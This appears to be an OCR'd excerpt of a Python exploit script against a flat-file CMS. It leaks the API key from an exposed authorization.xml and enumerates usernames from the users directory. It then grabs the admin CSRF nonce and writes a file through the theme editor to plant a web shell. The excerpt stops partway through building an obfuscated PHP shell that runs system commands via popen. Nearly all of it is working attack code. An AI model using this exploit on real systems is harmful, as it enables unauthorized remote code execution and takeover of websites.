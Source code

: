 ```python
        print "(+) checking .htaccess exposure..."
        r = requests.get("http://%s%sdata/other/authorization.xml" % (self.target, self.path))
        if r.ok:
            tree = ElementTree.fromstring(r.content)
            self.apikey = tree[0].text
            print "(+) leaked key: %s" % self.apikey
            return True
        return False

    def check_username_disclosure(self):
        print "(+) no username provided, attempting username leak..."
        r = requests.get("http://%s%sdata/users/" % (self.target, self.path))
        match = re.search("href=\"(.*).xml\"", r.text)
        if match:
            self.un = match.group(1)
            print "(+) found username: %s" % self.un
            return True
        return False

    def get_nonce(self):
        r = requests.get("http://%s%sadmin/theme-edit.php" % (self.target, self.path), headers=self.h)
        m = re.search('nonce" type="hidden" value="(.*)"', r.text)
        if m:
            print("(+) obtained csrf nonce: %s" % m.group(1))
            return m.group(1)
        return None

    def upload(self, fname, content):
            n = self.get_nonce()
            if n != None:
                try:
                    p = {
                        'submitsave': 2,
                        'edited_file': fname,
                        'content': content,
                        'nonce': n
                    }
                    r = requests.post("http://%s%sadmin/theme-edit.php" % (self.target, self.path), headers=self.h, data=p)
                    if 'CSRF detected!' not in r.text:
                        print('(+) shell uploaded to http://%s%stheme/%s' % (self.target, self.path, fname))
                        return True
                    else: print("(-) couldn't upload shell %s " % fname)
                except Exception as e:
                    print(e)
            return False

    # build the reverse php shell
    def build_php_code(self):
        phpkode  = ("""
        @set_time_limit(0); @ignore_user_abort(1); @ini_set('max_execution_time',0);""")
        phpkode += ("""$dis=@ini_get('disable_functions');""")
        phpkode += ("""if(!empty($dis)){$dis=preg_replace('/[, ]+/', ',', $dis);$dis=explode(',', $dis);""")
        phpkode += ("""$dis=array_map('trim', $dis);}else{$dis=array();} """)
        phpkode += ("""if(!function_exists('LcNIcoB')){function LcNIcoB($c){ """)
        phpkode += ("""global $dis;if (FALSE !== strpos(strtolower(PHP_OS), 'win' )) {$c=$c." 2>&1\\n";} """)
        phpkode += ("""$imARhD='is_callable';$kqqI='in_array';""")
        phpkode += ("""if($imARhD('popen')and!$kqqI('popen',$dis)){$fp=popen($c,'r');""")
        phpkode += ("""$o=NULL;if(is_resource($fp)){while(!feof($fp)){ """)
```
